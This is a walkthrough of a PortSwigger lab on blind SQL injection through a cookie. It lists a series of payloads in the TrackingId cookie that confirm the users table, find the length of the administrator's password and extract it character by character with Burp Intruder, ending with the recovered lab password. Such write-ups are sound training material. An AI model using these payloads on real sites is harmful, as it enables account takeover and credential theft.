 ## Welcome, my friend. Today we will start the [13. SQLLI lab](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/30dc25ad-499c-4e5a-a7cf-1231e8c80c9f)

### We discover this page and find category paramater.

![image](https://github.com/user-attachments/assets/3e2c0bfe-de9f-4fd2-b090-6031126d434a)

![image](https://github.com/user-attachments/assets/176701b7-1339-4dd4-969a-3f377a2e56c5)

### We notice ```Cookie: TrackingId=ebVJ3SqBjZlzaJ5h;``` this param is vulnerable and inject following payload:

```
Cookie: TrackingId=ebVJ3SqBjZlzaJ5h' AND '1'='1;
```

![image](https://github.com/user-attachments/assets/120cd618-a4c4-4398-a269-48a2db7cb86f)

### ```Welcome back``` printed so This is always ```true``` because ```1=1``` is true.
### Try ```1=2``` is false through following payload:

```
Cookie: TrackingId=ebVJ3SqBjZlzaJ5h' AND '1'='2;
```

![image](https://github.com/user-attachments/assets/413177b2-fbf8-4b98-83ce-a4fed2032ba7)

### ```Welcome back``` doesn't printed so This is always ```false``` because ```1=2``` is false.

#### We know that there is one table is ```users``` and there are two columns ```username```,```password``` and there username is ```administrator``` and require his password.

### Ok We can using this payload to sure from exist ```users``` table:

```
Cookie: TrackingId=ebVJ3SqBjZlzaJ5h' AND (SELECT 'a' FROM users LIMIT 1)='a;
```

![image](https://github.com/user-attachments/assets/b5e818cc-d11e-4033-8a65-f81e6f9f6dc0)

### Ok , There is ```users``` table.

### Now We can using this payload to sure from exist ```administrator``` account:

```
Cookie: TrackingId=ebVJ3SqBjZlzaJ5h' AND (SELECT 'a' FROM users WHERE username='administrator')='a;
```

![image](https://github.com/user-attachments/assets/12e29cc6-ad37-4c1e-a27a-2a977b9141cc)

### Ok , There is ```administrator``` account.


## Now we start guess password of administrator but in first we want know how much letters of passwords:

```
Cookie: TrackingId=ebVJ3SqBjZlzaJ5h' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a;
```

![image](https://github.com/user-attachments/assets/357d50f5-a58f-4ee5-afc3-92fa554cd1e2)

### password is greater than ```one``` letter.

### Try again then reach number of letters:

```
Cookie: TrackingId=ebVJ3SqBjZlzaJ5h' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=20)='a;
```

![image](https://github.com/user-attachments/assets/ae5d3ad4-2350-438c-b051-43959b5ec3ff)


### Wow now we know that password is 20 letters.

### Let's find this letters:

```
Cookie: TrackingId=ebVJ3SqBjZlzaJ5h' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a;
```

![image](https://github.com/user-attachments/assets/29465357-0f32-4079-a783-fb6381c10fd0)


### The first letter is ```a```, Let's find second letter:

```
Cookie: TrackingId=ebVJ3SqBjZlzaJ5h' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a;
```

### But this prccess is take long time, So we using burp tool:

```
Cookie: TrackingId=ebVJ3SqBjZlzaJ5h' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§;
```

![image](https://github.com/user-attachments/assets/3e41c7be-def5-4b14-8cf8-780f893c5bf9)

[Screencast from 09-04-2024 02:33:09 AM.webm](https://github.com/user-attachments/assets/adde843f-c99e-4354-99cf-3e3f17a8d1e3)


### the second letter is ```5```, We works again to find all letters susch as above video.

### We find password is ```a58ylg7b7eiupyrws0q8``` Let's login with administrator.

![image](https://github.com/user-attachments/assets/d01b0f3b-b158-4c1c-a2fb-16c43f61f784)


-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>

